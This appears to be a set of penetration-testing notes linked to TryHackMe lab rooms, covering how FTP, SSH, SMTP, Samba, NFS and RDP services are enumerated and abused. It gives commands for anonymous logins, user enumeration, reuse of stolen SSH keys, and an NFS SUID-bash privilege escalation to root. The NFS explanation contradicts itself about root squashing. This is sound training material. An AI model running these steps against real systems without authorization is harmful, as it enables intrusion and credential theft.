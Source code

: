 # Protocols & services notes

[![protocolsandservers](../../_badges/thmp/protocolsandservers.svg)](https://tryhackme.com/room/protocolsandservers)
[![protocolsandservers2](../../_badges/thmp/protocolsandservers2.svg)](https://tryhackme.com/room/protocolsandservers2)
[![networkservices](../../_badges/thmp/networkservices.svg)](https://tryhackme.com/room/networkservices)
[![networkservices2](../../_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)

This couse IS NOT a course about protocols/services, the knowledge inside is partial as it's intended to be used in complement of the [Protocols & Services course](/info/networking/protocols/index.md). In this course, there will only be additional notes useful from a cybersecurity point of view.

> You may also check [Cyber/Bruteforce services](/cyber/exploitation/services/bruteforce.md) to try to bruteforce a service credentials.

<hr class="sep-both">

## FTP - 21 (tcp)

[![kenobi](../../_badges/thm/kenobi.svg)](https://tryhackme.com/room/kenobi)

[See FTP Protocol for more information](/info/networking/protocols/index.md#-ftp---21-tcp)

➡️&nbsp; a hacker may access to interesting files

<div class="row row-cols-md-2"><div>

* Anonymous user may have been enabled

```bash
$ ftp anonymous@IP
```
</div><div>

* **ProFTPD 1.3.5**: There was a failure that allowed users to move files from a non-mounted path to the mounted path. You could steal an id_rsa for instance.

</div></div>

<hr class="sep-both">

## SSH - 22 (tcp)

[See SSH service for more information](/info/networking/protocols/index.md#-ssh---22-tcp)

➡️&nbsp; a hacker may get access to the machine

<div class="row row-cols-md-2"><div>

It's usually helpful to know that users may have a folder `.ssh` in their home, in which there are SSH Keys/... To avoid transferring passwords, servers can allow users to connect using an SSH private key. The key may be protected by a passphrase. Once the user enter the passphrase, the key is unlocked, and can be used by `ssh`.

* If there is no passphrase, a hacker can use it to connect to a server.
* Else, the hacker may try to [brute force it](/cyber/random/crack_password/index.md#ssh-private-key---passphrase-cracking).
</div><div>

The private key is usually called `id_rsa`, while the public key is usually called `id_rsa.pub`. You will find inside an email which was used to sign the key. The email can help finding the username.

```bash
# if you downloaded a key, 
# you need to set the permissions correctly
$ chmod 600 /tmp/id_rsa
$ ssh login@IP -i /tmp/id_rsa
```
</div></div>

<hr class="sep-both">

## SMTP - 25 (tcp)

[See SMTP service for more information](/info/networking/protocols/index.md#-smtp---25-tcp)

➡️&nbsp; a hacker may get credentials (hashed, must be cracked) that may have been reused for another service

<div class="row row-cols-md-2"><div>

* Metasploit

```bash
msf6 > use auxiliary/scanner/smtp/smtp_version # version
msf6 > use auxiliary/scanner/smtp/smtp_enum # users...
```
</div><div>

* Dig info using nmap

```bash
$ nmap IP -p 25 --script "*smtp*"
```

* Using `smtp-user-enum` <small>(not always working)</small>

```bash
# https://www.kali.org/tools/smtp-user-enum/
$ smtp-user-enum -M VRFY -u root -t IP
```
</div></div>

<hr class="sep-both">

## RCPBind - 111 (tcp/udp)

[![kenobi](../../_badges/thm/kenobi.svg)](https://tryhackme.com/room/kenobi)

[See RCPBind service for more information](/info/networking/protocols/index.md#-rcpbind---111-tcpudp)

<div class="row row-cols-md-2"><div>

* Exemple to query information about NFS mounts

```bash
$ nmap IP -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount
```
</div><div>
</div></div>

<hr class="sep-both">

## Samba - 445 (or 139 before, tcp)

[![kenobi](../../_badges/thm/kenobi.svg)](https://tryhackme.com/room/kenobi)

[See Samba service for more information](/info/networking/protocols/index.md#-samba---445-or-139-before-tcp)

➡️&nbsp; a hacker may access to interesting files, exploit a vulnerability such as WannaCry...

<div class="row row-cols-md-2"><div>

* Find shares using nmap

```bash
$ nmap IP -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse
```

* Try connecting anonymously with no password (leave blank)

```bash
$ smbclient //IP/share_name -U Anonymous
$ smbclient //IP//Anonymous -U Anonymous
```
</div><div>

The tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (0.7k ⭐) can be used to find shares, and users.

```bash
$ enum4linux options ip
$ enum4linux -a ip
# -a : list all
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : print os information
# -i : print printer information
# -v : verbose
```
</div></div>

<hr class="sep-both">

## NFS - 2049 (tcp)

[![kenobi](../../_badges/thm/kenobi.svg)](https://tryhackme.com/room/kenobi)

[See NFS service for more information](/info/networking/protocols/index.md#-nfs---2049-tcp)

➡️&nbsp; a hacker may access to interesting files, or upload SUID files that will give them root access on the machine.

<div class="row row-cols-md-2"><div>

* Find mounted folders with nmap

```bash
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
```
</div><div>

NFS configuration has a vulnerability when **root_squashing** is enabled. This option usually make it that if the local user is considered to be the user "nobody". But, if root_squashing is disabled, then the root user on the local machine will have root privilege inside the share.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## RDP - 3389 (tcp)

[See RDP service for more information](/info/networking/protocols/index.md#-remote-desktop-protocol-rdp---3389-tcp)

➡️&nbsp; a hacker may brute force weak credentials or exploit vulnerabilities

* [BlueKeep Vulnerability](https://en.wikipedia.org/wiki/BlueKeep) (2019)